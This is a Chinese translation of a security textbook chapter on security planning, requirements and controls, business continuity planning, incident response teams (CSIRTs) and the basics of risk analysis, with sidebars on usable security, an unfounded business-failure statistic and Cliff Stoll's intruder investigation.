即使安全计划应当详尽，必然仍会存在未被考虑的漏洞。这些漏洞并不总是源于无知或天真；相反，它们可能因系统演进过程中新增设备或数据而产生。它们也可能源于新情况，例如系统被以设计者未预料的方式使用。安全计划应详细说明当有人发现新漏洞时应遵循的流程。特别是，说明应解释如何将针对该漏洞的控制措施整合到现有的安全程序中。

### 安全需求

安全计划的核心是其**需求**集：为确保期望的安全级别而对系统提出的功能或性能要求。这些需求通常源于组织需求。有时这些需求包括符合外部强制的特定安全授权的需求，例如政府机构或商业标准施加的要求。

> **安全需求记录了组织和外部的要求。**

#### 安全需求、约束与控制

Shari Lawrence Pfleeger [[PFL91]](#bib01.html#bib_490) 指出，我们必须区分需求、约束和控制。

**约束** 是安全策略的一个方面，它约束、限定或指导需求的实现。正如 第 1 章 所定义，**控制** 是消除或减少漏洞的行动、设备、程序或技术。

要理解需求、约束和控制之间的区别，请参考 第 5 章 介绍的美国国防部 TCSEC 的六项“需求”。这六项列在 表 10-1 中。


**表 10-1** TCSEC 的六项“需求”

根据我们对需求、约束和控制的定义，可以看出 TCSEC 的第一项“需求”实际上是一个约束：安全策略。第二和第三项“需求”描述的是实施安全的机制，而非所需行为的描述。也就是说，它们描述的是显式实现，而非系统必须具备的一般特征或属性。然而，第四、第五和第六项 TCSEC “需求”确实是真正的需求。它们陈述了系统必须具备某些特征，但并未强制规定特定的实现方式。

这些区别很重要，因为需求解释的是*应该完成什么*，而不是*如何完成*。也就是说，需求应尽可能将实现细节留给设计人员。例如，与其编写一条需求，规定某些数据记录需要密码才能访问（这是一个实现决策），安全规划者应仅声明对数据记录的访问应受到限制（并注明限制访问的对象）。

需求还可能指示强度，例如防止随意尝试访问（轻度限制）或防范数周的协同攻击（高度防护）。这种更灵活的需求允许设计人员在多种控制措施（如令牌或加密）中进行选择，并平衡安全需求与其他系统需求（如性能和可靠性）。图 10-1 说明了系统分析的不同方面如何支持安全规划过程。


**图 10-1** 安全计划的输入

与通用软件开发过程一样，安全规划必须允许客户或用户在独立于实现的情况下指定期望的功能。需求应涵盖安全的所有方面：机密性、完整性和可用性。此外，应对其进行审查，以确保其具有适当的强度和质量。特别是，我们应确保需求具有以下特征：

*   **正确性**：需求是否易懂？是否无错误地陈述？
*   **一致性**：是否存在冲突或模棱两可的需求？
*   **完整性**：需求是否涵盖了所有可能的情况？
*   **现实性**：是否可能实现需求所规定的内容？
*   **必要性**：需求是否过度限制？
*   **可验证性**：能否编写测试以确凿且客观地证明需求已得到满足？能否以某种方式衡量系统或其功能，以评估需求满足的程度？
*   **可追溯性**：能否将每个需求追溯到与其相关的功能和数据，以便需求变更能引发轻松的重新评估？

随后，需求可能会受到预算、进度、性能、策略、政府法规等约束。在给定需求和约束的情况下，开发人员再选择适当的控制措施。

##### 推荐控制措施

安全需求从应受保护的角度阐述了系统的需求。安全计划还必须推荐应纳入系统的控制措施，以满足这些需求。本书前面已展示许多控制措施的示例，此处不再赘述。正如本章后面所述，我们可以利用风险分析创建从漏洞到控制措施的映射。该映射告诉我们系统将如何满足安全需求。也就是说，推荐的控制措施解决实现问题：系统将如何设计和开发以满足既定的安全需求。

##### 实施责任

安全计划的一个章节将确定负责实施安全需求的人员（通常以组织头衔列出，如人力资源主管或值班网络安全管理员）。此文档有助于那些必须将个人职责与其他开发人员职责协调起来的人员。同时，计划明确了如果某些需求未得到满足或某些漏洞未得到解决，谁应负责。也就是说，计划注明了当发现新漏洞或引入新类型资产时，谁负责实施控制措施。（但请参阅 侧边栏 10-1 了解谁负责。）

***

**安全计划记录了谁负责实施安全。无人负责意味着无人行动。**

***

#### 侧边栏 10-1 谁负责使用安全？

我们给用户施加了大量责任：应用这些补丁、不要下载未知代码、保管好敏感材料、频繁更改密码、别忘了带伞。我们都相当精通技术，所以能泰然处之“致命错误”这类消息。（一位邻居曾惊慌地来电，担心她的整台机器及所有软件数据即将在电子烟雾中消失，因为她收到了一条“致命错误”消息；我冷静地解释说，该消息或许有点夸张。）

但这位邻居提出了一个重要观点：当安全使用计算机如此困难时，我们如何能指望人们安全地使用它们？以保护无线接入点为例（见 第 6 章）：使用 WPA 或 WPA2 而非 WEP；将接入点设为非广播模式而非开放模式；为初始值选择一个随机的 128 位数字。Whitten 和 Tygar [[WHI99]](#bib01.html#bib_657) 列出了用户安全的四个关键点：用户必须

*   了解其需执行任务的安全性
*   能弄清如何成功执行这些任务
*   被防止犯危险错误
*   足够熟悉该技术以继续使用它

Whitten 和 Tygar 得出结论：广受欢迎的 PGP 产品拥有相当不错的用户界面，但其易用性仍不足以为大多数计算机用户提供有效安全保护。Furnell [[FUR05]](#bib01.html#bib_213) 对 Microsoft Word 的安全功能得出了类似结论。

人机交互（HCI）领域已成熟，指导材料可用，且存在大量优秀范例。那么，为什么安全设置却隐藏在子子标签页中，并用高度专业的术语编写？除非用户能理解他们该做什么，否则我们不能指望他们参与安全执行。

HCI 领域的领军人物 Ben Shneiderman 建议，人机界面用他的话说应当是“有趣的”。引用他人关于计算机游戏界面的研究，Shneiderman 指出，此类界面满足了对挑战、好奇心和幻想的需求。他进而主张，计算机使用必须“(1) 提供正确的功能，以便用户实现目标；(2) 提供易用性和可靠性，防止挫败感破坏乐趣；(3) 通过趣味功能吸引用户。” [[SHN04]](#bib01.html#bib_567)

有人可能会反驳说，安全功能是严肃的，不像电脑游戏或网页浏览器。尽管如此，这并不能免除我们使界面保持一致、信息丰富、赋能用户且防止错误的必要性。

---

构建、使用和维护系统的人员扮演着多种角色。每个角色可承担安全一个或多个方面的责任。例如，请考虑下面列出的群体。

*   个人电脑或其他设备的**用户**可能要对其自己的机器安全负责。或者，安全计划可能会指定一个人或小组作为个人电脑安全的协调员。
*   **项目负责人**可能要对数据和计算的安全负责。
*   **管理人员**可能要负责监督其下属实施安全措施。
*   **数据库管理员**可能要对其数据库中数据的访问和完整性负责。
*   **信息官员**可能要负责监督数据的创建和使用；这些官员可能还要负责数据的保留和妥善处置。
*   **人事人员**可能要负责涉及员工的安全，例如，审查潜在员工的可靠性并安排安全培训计划。

##### 时间表

全面的安全计划无法即刻执行。安全计划包含一个时间表，显示计划的各个要素将如何以及何时执行。这些日期也设定了里程碑，以便管理层跟踪实施进度。

分阶段实施安全实践可能是可取的。例如，如果控制措施昂贵或复杂，可能会逐步获取并实施。同样，程序性控制可能需要员工培训，以确保每个人都理解并接受控制的理由。计划应规定实施控制措施的顺序，以便尽快覆盖最严重的风险敞口。

此外，计划必须具有可扩展性。条件会发生变化：会采购新设备，会提出新的连接程度和模式，会识别出新威胁。计划必须包含变更和增长的程序，以便在为变更做准备时就将变更的安全方面纳入考量，而不是在变更完成后再添加安全措施。计划还应包含定期审查的时间表。即使没有明显的重大增长，大多数组织每天也会经历适度的变化。在某个时刻，变化的累积影响足以要求修改计划。

##### 计划维护

光有好意在安全方面是不够的。我们不仅必须小心定义需求和控制措施，还必须找到评估系统安全性的方法，以确保系统像我们预期的那样安全。因此，安全计划必须要求定期审查安全形势。随着用户、数据和设备的变化，新的风险敞口可能会出现。此外，当前的控制手段可能会变得过时或无效（例如，当更快的处理器时间使攻击者能够破解加密算法时）。对象清单和控制列表应定期审查和更新，并重新进行风险分析。安全计划应设定这些定期审查的时间，基于日历时间（例如，每九个月审查一次计划）或系统变更的性质（例如，每次主要系统发布后审查计划）。

---

**安全计划必须定期重审，以使其适应不断变化的条件。**

---

#### 安全规划团队成员

谁执行安全分析、推荐安全方案并编写安全计划？与任何此类综合任务一样，这些活动很可能由一个代表所有相关利益方的委员会来执行。委员会的规模取决于计算组织的规模和复杂性及其对安全的承诺程度。组织行为学研究表明，工作委员会的最佳规模在五到九名成员之间。有时，一个较大的委员会可能作为监督机构，审查和评论较小工作委员会的成果。或者，一个大型委员会可能会指定分委会来制定计划的各个部分。

计算机安全规划团队的成员构成必须以某种方式与本书所述的计算机安全不同方面相关联。操作系统和网络的安全需要系统管理人员的配合。程序安全措施可由应用程序员理解和推荐。物理安全控制由负责一般物理安全的人员实施，以防范人为攻击和自然灾害。最后，因为控制措施影响系统用户，计划应纳入用户的观点，特别是关于易用性和控制措施总体可取性方面。

因此，无论如何组织，安全规划团队都应代表以下各群体。

*   计算机硬件组
*   系统管理员
*   系统程序员
*   应用程序员
*   数据录入人员
*   物理安全人员
*   代表性用户

在某些情况下，一个群体可以由在适当时候被咨询的人来充分代表，而不必从每个可能的选区招募一名委员会成员。

#### 确保对安全计划的承诺

计划编写完成后，必须被接受且其建议得以落实。组织的接受是关键：一个没有组织承诺的计划，只是一个积灰的搁置计划。对计划的承诺意味着安全功能将被实施，安全活动将被执行。三类人员必须为使计划成功做出贡献。

*   规划团队必须敏感地关注受计划影响的每个群体的需求。
*   受安全建议影响的人员必须理解计划对他们使用系统和执行业务活动方式的意义。特别是，他们必须看到他们的所作所为如何影响其他用户和其他系统。
*   管理层必须致力于使用和执行系统的安全方面。

教育和宣传有助于人们理解和接受安全计划。接受不仅涉及条文，也涉及安全控制的精神。有个故事讲的是一名员工一次性连续修改了 24 次密码，以便换回心仪的密码，因为该系统禁止使用最近用过的 23 个密码。显然，该员工要么不理解，要么不同意密码限制的理由。如果人们理解推荐控制的必要性并接受其为合理，他们就会正确有效地使用控制。如果人们认为控制麻烦、随意或适得其反，他们就会设法规避或破坏它们。

管理层的承诺源于理解。但这种理解不仅仅是技术上讲得通的函数；它还涉及了解缺乏安全的原因和潜在影响。管理者还必须在便利性和成本方面权衡取舍。计划必须展示控制措施的成本效益，特别是与没有控制措施时发生安全漏洞的潜在损失相比。因此，以关乎管理层和技术关切的术语妥善呈现计划至关重要。

---

**安全计划将技术问题定位为非技术人员也能理解的术语。**

---

## 业务连续性规划

请记住，有些管理者并非计算机专家。相反，系统支持的是在其他业务职能方面具有专业知识的管理者，例如银行业、医疗技术或体育领域。在这种情况下，安全计划必须用管理者能理解的语言来阐述安全风险。一份有用的安全计划应避免使用技术术语，并向读者阐述在系统所支持的业务背景下，所感知的安全风险的性质。有时，外部专家可以弥合管理者业务与安全之间的鸿沟。

管理者在了解控制措施的价值之前，通常不愿拨付资金用于控制。正如我们在本章后面所述，风险分析的结果有助于传达实施控制措施的财务权衡与收益。通过用财务术语并在日常业务活动的背景下（如向竞争对手或外部人员泄露数据）描述漏洞，安全规划者可以帮助管理者理解控制措施的必要性。

我们刚才讨论的计划属于正常业务范畴。它们解决的是企业如何处理计算机安全需求的问题。类似的计划可能涉及如何增加销售额或提高产品质量，因此这些规划活动应成为管理工作的自然组成部分。

接下来，我们将探讨两种解决特定安全问题的业务计划：应对安全事件期间的活动并加以控制，以及确保业务活动在事件发生时仍能持续进行。

### 10.2 业务连续性规划

利润微薄的小公司可能因计算机事件而倒闭（尽管倒闭多少存在争议，详见侧边栏 10-2）。财务状况良好的大企业可以承受暂时中断计算机使用的适度事件，尽管这对它们来说很痛苦。但即使是富裕的公司也不愿花冤枉钱。分析有时很简单：*没有计算机意味着没有客户，意味着没有销售，意味着没有利润*。

政府机构、教育机构和非营利组织也有有限的预算，他们希望将其用于推进自身需求。他们可能没有直接的盈利动机，但能否满足其客户——公众、学生和选民——的需求，在一定程度上决定了他们未来的发展前景。各类组织都必须为应对紧急情况制定计划。

***

#### 侧边栏 10-2 企业会因安全事件而倒闭吗？


如果你搜索网络，很容易找到这样一个统计数据的引用：受重大计算机事件影响的组织中，80% 会在 18 个月内倒闭。有时是 40%。有时是 2 年。有时是指没有连续性计划的企业。既然这么多人引用这个统计数据，那它一定是真的。

真的是这样吗？

业务连续性规划师 Mel Gosling 在互联网上发表了一篇观点文章 [GOS07]，他认为 80% 甚至 40% 都不可信。为了支持他的观点，他引用了几起重大自然灾害（洪水、疾病爆发、爆炸），在这些事件中他可以估算企业倒闭的数量，得出的数字远低于 40%。

后来，他和同事 Andrew Hiles [GOS09] 搜寻并分析了 29 个关于企业因计算机事件倒闭数量的引用。在所有 29 种情况下，他们发现：（a）没有支持性依据；（b）模糊的引用（“根据一份[未指明的] IDC 报告……”）；（c）引用利益相关方的报告（如指导客户进行灾难规划的咨询公司）；（d）引用没有支持数据的来源，或其他类似的难以捉摸的理由（引用美国国家档案和记录管理局，该局引用了其 1997 年撰写的一本书，而那本书又引用了一次电视广播）。因此，80%（或 40%、60%、70%、43%、27%，任你挑选）这一数字似乎没有可验证的依据。

下次听到这种断言时，请保持怀疑态度。

***

**业务连续性计划**^[1]^ 记录了企业在计算机安全事件期间或之后如何继续运作。常规安全计划涵盖正常时期的计算机安全，并处理针对来自常见来源的各种漏洞的防护。业务连续性计划处理具有以下两个特征的情况：

1. 标准术语是“业务连续性计划”，尽管这种计划也适用于大学“教育学生”的业务或政府“服务公众”的业务。

* **灾难性情况**，即全部或大部分计算能力突然不可用
* **长时间持续**，即中断预计将持续很长时间，导致业务受损

***

**业务连续性规划指导应对威胁企业生存的危机。**

***

业务连续性计划在许多情况下都很有帮助。以下是一些典型例子，你可能在日常报纸上读到过：

* 火灾摧毁了公司的整个网络。
* 关键软件组件的看似永久性故障导致计算系统无法使用。
* 电力、电信、网络接入或其他关键服务供应商的突然故障限制或停止了活动。
* 洪水阻止必要的网络支持人员到达运营中心。

正如你所见，每个例子中的影响都可能持续很长时间，且每个例子都使关键功能瘫痪。

你可能还注意到，“计算机”经常因无法提供服务或产品而受到指责。例如，商店店员无法使用收银机，因为“计算机死机了”。你手里可能拿着一张 CD，外加刚好买它的现金。但店员不会收你的钱让你走人。通常，计算机服务很快就会恢复。但有时不会。我们曾因雷暴导致停电并使航空公司计算机瘫痪，在机场滞留了一个多小时。尽管我们的机票清楚地显示了我们在特定航班上的预订，但航空公司代理拒绝让任何人登机，因为他们无法分配座位。随着计算机持续瘫痪，代理们变得焦虑不安^[2]^，因为技术故障延误了航班，更重要的是，扰乱了数百个航班衔接。

2. 让乘客“随便找个座位坐下”这一显而易见的想法（至少对我们而言）似乎违反了航空公司政策。而这一事件发生在 9/11 恐怖袭击收紧航空安检很久以前。

应对此类灾难的关键在于事先的规划和准备，确定在计算技术失效时能维持业务生存的活动。业务连续性规划的步骤如下：

* 评估危机对业务的影响。
* 制定控制影响的策略。
* 制定并实施该策略的计划。

### 评估业务影响

要评估故障对业务的影响，首先要问两个关键问题：

* 什么是**核心资产**？丢失什么会导致业务无法开展？答案通常是“网络”、“客户预订数据库”或“控制交通信号灯的系统”。
* 什么可能**中断这些资产的使用**？漏洞比威胁主体更重要。例如，无论是被大火烧毁还是在雷暴中被电击，网络反正都瘫痪了。答案可能是“故障”、“损坏”或“断电”。

进行这种分析时，你可能只会发现少数几个关键资产。

不要忽视人员以及他们所需的支持物资，例如文档和通信设备。审视资产的另一种方式是自问：“维持业务运作（至少在某种程度上）所需的最小事物或活动集合是什么？”如果手工系统可以弥补计算机系统故障，尽管效率低下，你可能需要考虑建立这种手工系统作为潜在的关键资产。试想一家航空公司无法根据客舱座位图手工分配座位的情形。

本章后面我们将学习风险分析，这是一种全面审查资产、漏洞和控制措施的方法。对于业务连续性规划，我们不需要完整的风险分析。相反，我们只关注那些对持续运营至关重要的事物。我们还会审视更大类别的对象，例如“网络”，其丢失或受损可能产生灾难性影响。

### 制定策略

连续性策略探讨如何保护关键资产。在某些情况下，数据的备份副本、冗余硬件或替代的手工流程已足够。有时，最合理的答案是降低运力。例如，规划者可能得出结论：如果伦敦的呼叫中心故障，业务可将所有呼叫转移至东京。也许东京的员工无法处理伦敦全部的通话量；这种情况可能导致客户不满甚至流失，但至少部分业务仍可开展。

理想情况下，你希望业务零损失地继续运行。但面对灾难性故障，通常只能保留部分业务功能。在这种情况下，你必须制定适合你的业务和客户的策略。例如，你可以决定是保留功能 A 的一半和功能 B 的一半，还是保留 A 的大部分而完全放弃 B。

***

**业务连续性规划迫使公司设定基本优先级。**

***

你还必须考虑业务运作的时间框架。有些灾难持续时间比其他灾难长。例如，火灾后的重建是一个漫长的过程，意味着长时间处于灾难模式。你的策略可能包含多个步骤，每个步骤取决于业务中断的时长。因此，针对一小时的中断你可能采取一种行动，而如果中断可能持续一天或更久，则采取另一种行动。

因为你是在事先规划，所以拥有从容思考可能情形并评估备选方案的优势。例如，你可能意识到如果东京站点接管瘫痪的伦敦站点的工作，将存在显著的时差。最好将上午的呼叫转至东京，下午的转至达拉斯，以避免要求东京员工加班。

策略分析的结果是按情形组织的最佳行动方案选择。该策略随后可作为业务连续性计划的基础。

### 制定计划

业务连续性计划规定了几项重要内容：

- 事件发生时由谁负责
- 做什么
- 谁来做

该计划为提前安排提供了依据，例如在灾难发生前采购冗余设备、安排数据备份和储备物资。该计划还为提前培训提供了依据，以便人员知道应如何应对。灾难发生时会一片混乱；你不希望在已经严峻的问题上再增加困惑的人员。

负责人宣布进入紧急状态，并指示人员遵循计划中记录的程序。负责人还宣布紧急状态结束，条件可恢复正常。

计划很少会规定危机中要采取的确切步骤，因为危机的性质太多变了。即使在大类别中（例如，某事导致网络故障），“故障”的性质和恢复前景（一小时、一天、一周）都过于模糊，以至于无法由计划规定在每种情况下该做什么。相反，负责人有权根据当时情况采取看似最佳的行动。关键在于，有一人负责，并被授权花费必要的资金以至少部分恢复运营。

因此，业务连续性规划解决了尽管发生灾难，如何维持一定程度的关键业务活动的问题。其重点在于维持业务生存能力。它基于资产调查，该调查仅关注少数关键资产和可能长期或不确定地威胁运营的严重漏洞。

业务连续性计划的重点是在其他人处理危机的同时维持业务运转。也就是说，业务连续性计划不包括呼叫消防部门或疏散大楼，尽管这些步骤很重要。业务连续性计划的重点是*业务*以及如何在特定情况下尽可能维持其运作。处理紧急情况是别人的事。

***

**业务连续性计划关注业务需求。**

***

现在我们转向另一个专门处理计算机危机的计划。

### 10.3 处理事件

网络几乎陷于停顿。弹窗建议你立即修补应用程序。一个文件消失了。活动进程列表中出现了一个异常名称。这些情况中有正常的吗？有令人担忧的吗？需要上报吗？如果是，上报给谁？这些情况中的任何一个都可能是安全事件的第一个迹象，也可能什么都不是。你该怎么办？

个人必须对自己的环境负责。但大学里的学生或公司、政府机构的员工有时会认为这是别人的责任。或者他们不想用可能根本无关紧要的事情去打扰忙碌的运维人员。

组织建立处理事件的能力，从接收首份报告并调查开始。在本节中，我们将探讨事件处理实践。

#### 事件响应计划

（安全）**事件响应计划**指导员工如何应对安全事件。与业务连续性计划不同，事件响应的目标是处理当前的安全事件，不直接考虑业务问题。安全事件可能同时是业务连续性计划所处理的业务灾难。但作为一个具体的安全事件，它可能不足以构成灾难（即可能不会严重中断业务），却可能是严重的安全违规，例如黑客攻击或内部欺诈案件。事件可能是单一事件、一系列事件或持续性问题。

***

**事件响应计划详述如何处理各类安全事件。**

***

事件响应计划应：

- 定义什么构成*事件*
- 明确谁负责*掌管*局面
- 描述*行动*计划

该计划通常分三个阶段：事先规划、分诊和事件处置。第四个阶段——复盘，在事态平息后很有用，以便此次事件能带来未来事件处理的改进。

##### 事先规划

与所有规划职能一样，事先规划效果最好，因为人们可以在没有压力和情绪的情况下，从容、合乎逻辑地思考。什么构成事件可能比较模糊。我们无法预先知晓事件的细节。典型特征包括：对计算机系统、数据、处理或人员造成损害或损害风险；对损害程度最初不确定；以及对事件来源或手段同样不确定。例如，你可以看到文件丢失或主页被篡改，但不知道是如何发生的、由谁所为，以及可能还有什么其他损害。

在未进行事件规划的组织中，此时可能会陷入混乱。有人跑去找网络经理，有人给服务台发邮件，有人打电话给 FBI、CERT、报社或消防部门。人们开始自行调查，而不与其他部门、机构或企业的相关人员协调。随之而来的是交谈、谣言和错误信息：往往噪音多于实质内容。

制定事件响应计划后，所有人都会提前接受培训，在事件发生时联系指定的负责人。计划会按顺序列出一份人员警报名单，以防第一联系人无法到场。负责人决定下一步做什么，首先判断这是真实事件还是虚假警报。确实，自然事件有时看起来像安全事件，应首先确立事实。如果负责人判断这可能是真实事件，他或她将启动响应团队。

***

**事件响应计划规定了事件发生时联系谁，这可能只是一个未经证实的异常情况。**

***

###### 响应

**响应团队**是负责响应事件的一组人员。响应团队可能包括：

* **director（负责人）**：事件负责人，决定采取什么行动以及何时终止响应。负责人通常是管理层员工。
* **technician(s)（技术人员）**：执行响应技术部分的人员。首席技术人员决定关注重点，分析情况数据，记录事件及其处理过程，并召集其他技术人员协助分析。
* **advisor(s)（顾问）**：根据需要，包括法律、人力资源或公共关系部门的员工。

在小型事件中，单个人可以承担多个角色。尽管如此，应由单个人负责，即指挥响应工作的人，作为“内部人员”（员工、用户）的单一联系点，以及面向“公众”的单一官方代表。

为制定政策并确定响应团队，您需要考虑以下事项。

* **法律问题**：事件具有法律后果。在某些国家，计算机入侵属于违法，因此执法官员必须参与调查。在其他地方，您可自行决定是否请求执法部门参与。除了刑事诉讼，您还可能提起民事诉讼。这两种法律行动都对响应有严重影响。例如，证据必须以特定方式收集和保存，才能在法庭上使用。同样，法律可能限制您对所谓攻击者采取的行动：切断连接可能是可以接受的，但发起报复性的拒绝服务攻击可能不被允许。
* **保全证据**：事件发生时最常见的反应是假设原因是内部或意外的。例如，您可能首先假设硬件故障或软件运行不正常。员工可能被指示更改配置、重新加载软件、重启系统，或通过调整软件尝试解决问题。不幸的是，这些行为中的每一个都可能不可逆转地扭曲或破坏证据。在处理可能的事件时，应在确保现场安全和“提取指纹”之前，尽量少做操作。
* **记录**：可能很难记住您已经做了什么：您是否已经重新加载了特定文件？是什么步骤让您到了提示输入新 DNS 服务器地址的界面？如果您请来外部取证调查员或警察，您需要准确说明已经做了什么。已执行操作的清单也有助于相关人员确定发生了什么、如何在未来防止类似事件，以及如何恢复数据和计算能力。
* **公共关系**：处理事件时，组织应对外统一口径。如果发言人过多，可能会发出令人困惑的信息。如果可能采取法律行动，只应由一人公开发言。无心之言可能会泄露风声给攻击者，或对案件产生负面影响。您可以简单说明发生了事件，简要笼统地说明事件性质，并声明情况已受控，正常运行将恢复（如果能可靠估计，可给出具体时间）。

事件响应人员首先执行分诊：调查发生了什么。“网络响应缓慢”可能有多种原因，从使用量大到电子故障再到恐怖袭击。基于初步分析，团队决定采取什么步骤来处理事件。

***

**“这真的是一个事件吗？”是最重要的问题。**

***

有些事件会自行解决（例如，使用高峰结束），有些保持不变（故障不会自愈），有些则会恶化（攻击加剧）。事件响应人员会跟进案件，直到查明原因并尽最大可能将系统恢复正常。随后团队完成工作记录，宣布事件结束。

#### 事件解决后

最终，事件响应团队结案。此时团队将召开事后复盘会，考虑两件事：

* **是否需要采取安全控制措施？** 入侵者是否因安全补丁未及时更新而攻破系统；如果是，是否应建立程序确保补丁发布时即刻应用？是否因弱口令导致访问失控；如果是，是否应开展活动教育用户如何构建强口令？如果存在控制失效，应采取什么措施防止未来发生类似攻击？
* **事件响应计划是否有效？** 每个人都知道通知谁吗？团队是否拥有所需资源？响应是否足够快？某些关键资源是否受到不必要的影响？下次应如何改进？

事件响应计划确保事件得到及时、高效且危害最小化的处理。

##### 事件响应团队

许多组织会指定并维护一支经过培训并获授权处理安全事件的团队。此类团队被称为**计算机安全事件响应团队**（**CSIRT**）或**计算机应急响应小组**（**CERT**），是大型私营和政府组织以及许多小型组织的标准配置。CSIRT 可以由一人组成，也可以是由数十名待命人员组成的灵活团队，他们贡献特殊技能。

2014 年 9 月至 10 月刊的 *IEEE Security & Privacy* 杂志专门探讨 CSIRT。文章包括一个国家级 CSIRT 及其与其他 CSIRT 协调的案例研究、CSIRT 如何（且必须）自动化评估每小时接收的数百万数据项，以及从心理学角度研究 CSIRT 人员以帮助团队更有效。

###### CSIRT 的类型

单个人，即小型组织的计算机或网络管理员，可能构成完整且固定的事件响应团队。响应重大事件可能会挤占其他日常职责。因此，随着组织信息技术运营变得更大或更复杂，其响应能力的性质往往会发生变化。

但一人或一个内部响应组织并非全球事件响应的完整布局。虽然一些事件局限于单一组织，但其他事件涉及多个目标，有时跨越组织、政治和地理边界。以下是一些 CSIRT 模型：

* 一个完整的组织响应团队，以覆盖所有事件；此类团队可能包括单独的员工来处理不同组织单位中的情况，例如位于不同地点的工厂或大型公司的不同业务单元
* 协调中心，用于跨组织协调事件响应活动，以避免不必要的工作重复，并确保工作朝着相同的目标推进
* 所谓的国家级 CSIRT，负责在国家内部以及与其他国家的国家级 CSIRT 之间进行协调
* 行业 CSIRT，协助调查和处理特定业务领域的事件，例如金融机构或医疗机构；某些攻击专注于一种类型的目标（例如，2013 年大型银行成为大规模拒绝服务攻击的目标）
* 厂商 CSIRT，处理或参与涉及某一制造商产品的事件
* 外包 CSIRT 团队，受雇以合同形式为其他公司执行事件响应服务

***

**CSIRT 在组织内部、国家层面、国际层面、按厂商划分以及按业务领域划分开展工作。**

***

一个相关概念是安全运营中心（`SOC`），它执行网络的日常监控，并可能是最先检测并报告异常情况的单位。此外，信息共享与分析中心（`ISACs`）通过在 CSIRT 间共享威胁和事件数据，执行部分 CSIRT 职能。

##### CSIRT 活动

CSIRT 的职责包括：

* **报告**：接收疑似事件的报告，并根据需要向高级管理层报告
* **检测**：调查以确定事件是否发生
* **分诊**：采取立即行动以应对紧急需求
* **响应**：协调工作，以适合严重程度和时间要求的方式处理所有方面
* **事后分析**：宣布事件结束，并安排复盘案例以改进未来的响应
* **教育**：通过建议良好的安全实践和传播过往事件的经验教训来预防危害

Robin Ruefle 团队报告称，CSIRT 在预防攻击方面的主动角色日益重要 [RUE14]。团队研究当前数据以预测未来攻击趋势，以此确定在何处投入预防资源。

##### 团队成员

大型组织的事件响应团队拥有 50 名或更多成员并不罕见。

在不同阶段，响应团队需要多种技能，包括：

* 收集、分析和保存数字取证证据的能力
* 分析数据以推断趋势的能力
* 分析恶意代码的来源、影响和结构的能力
* 通过开发签名等防御措施来帮助管理安装和网络的能力
* 执行渗透测试和漏洞分析的能力
* 了解攻击中使用的当前技术的能力

可根据特定事件的需要，将专业技能引入响应团队。

提前组建团队可让组织根据人员的个人和技术技能进行挑选，尝试不同的成员组合以确定人员搭配是否有效，并让团队成员在不得不共同处理事件之前建立友谊和信任。此外，至少部分事件响应团队成员在组织中还有其他工作；即他们并非全职为事件团队工作。通过提前通知，管理者可以安排其他人在事件期间接管被调往事件响应团队人员的工作。

##### 信息共享

正如 Robin Ruefle 及其同事所报告 [RUE14]，信息共享是 CSIRT 的一项关键职责。影响一个站点的事件也可能影响另一个站点，一个地方的分析可能有助于另一个地方。然而，目前尚无 CSIRT 间自动化信息共享的标准。由于信任问题，目前大量共享以非正式方式、通过口耳相传进行，即一名 CSIRT 成员与另一组织的已熟识同事互动。该模式无法扩展到大规模运作，也不支持与国家级及其他协调 CSIRT 的交换。由于对竞争、负面宣传和法规的担忧，信息共享也受到阻碍。

***

**事件响应通常需要共享信息——在组织内部、与受影响类似的组织之间、以及与国家官员之间。**

***

##### 确定事件范围

事件的范围在开始时很少是显而易见的。它可能始于某人注意到某种异常。（参见 Sidebar 10-3 中的示例，了解微小的异常是如何演变成重大事件的。）

***

###### Sidebar 10-3 账户余额错误引出入侵者


1986 年，Cliff Stoll 在劳伦斯伯克利实验室担任天文学家时，发现他管理的计算机账户金额对不上。尽管差额很小，Stoll 不愿仅将其视为无法解释的计算机错误而置之不理。有人创建了一个额外账户并记在 Stoll 的项目名下，但月度账单未送达 Stoll（或任何其他人，因为该账户无账单地址）。巧合的是，Stoll 接到报告称有人从他的站点入侵军用计算机，但他最初未将这两个数据点联系起来。

Stoll 删除了未授权账户，却发现攻击者仍潜伏在系统中，已获取系统管理员权限。以为攻击者是附近大学的学生，Stoll 和同事们想当场抓获攻击者。他们很快发现了攻击者利用的漏洞，但决定让嫌疑人继续活动以便调查其行为，采用了一种精心设计的伪装手段，由 Stoll 控制攻击者所能看到和做的一切 [STO88, STO89]。Stoll 的陷阱是蜜罐的早期范例之一（见第 5 章介绍）。

数月活动后，Stoll 和当局确认攻击者为德国特工 Markus Hess，系受苏联克格勃招募。德国当局逮捕了 Hess，他因间谍罪被判处一至三年监禁。

账目记录不平衡——仅相差 0.75 美元——导致了一名国际间谍的调查和定罪。当你开始调查事件时，很少知道其范围会有多大。

***

### 10.4 风险分析

接下来我们转到安全规划核心的管理活动。**风险分析**是一个有组织的过程，用于识别计算环境中最重大的风险，确定这些风险的影响，并权衡针对这些风险应用各种控制措施的可取性。

良好有效的安全规划包含仔细的风险分析。**风险**是系统或其用户可能遇到的潜在问题。正如 Rook 所建议 [ROO93]，我们通过寻找三个方面来将风险与其他项目事件区分开来：

*   **与事件相关的损失**。该事件必须产生负面影响：安全受损、时间损失、质量下降、资金损失、控制权丧失、理解力缺失等。这种损失称为**风险影响**。
*   **事件发生的可能性**。与每个风险相关的发生概率从 0（不可能）到 1（确定）衡量。当风险概率为 1 时，我们称之为问题。
*   **我们改变结果的程度**。我们必须确定能做什么（如果有）来避免影响，或至少减轻其效果。**风险控制**涉及一组旨在降低或消除风险的行动。本书描述的许多安全控制都是风险控制的例子。

***

#### 风险控制与分析

##### 风险控制

风险控制是一组旨在降低或管理风险的行动。

---

我们通常希望权衡针对每个风险可采取的不同行动的利弊。为此，我们可以通过将风险影响乘以风险概率来量化风险的影响，从而得出**风险敞口**。例如，如果病毒攻击的可能性是 0.3，而清理受影响文件的成本是 10,000 美元，那么风险敞口就是 3,000 美元。因此，我们可以使用这样的计算来决定：投资 100 美元购买杀毒软件是值得的，因为它可以防止一笔大得多的预期潜在损失。显然，风险概率会随时间变化，因此风险分析活动应跟踪这些变化并相应地规划应对事件。

风险在生活中不可避免：过马路有风险，但这不会阻止我们这样做。我们可以识别、限制、规避或转移风险，但很难彻底消除它。一般来说，我们有三种应对风险的策略：

*   **规避** 风险，通过更改安全性或其他系统特性的需求
*   **转移** 风险，通过将风险分配给其他系统、人员、组织或资产；或通过购买保险来弥补风险成为现实时可能发生的任何财务损失
*   **承担** 风险，通过接受它、利用可用资源控制它，并准备好在损失发生时应对

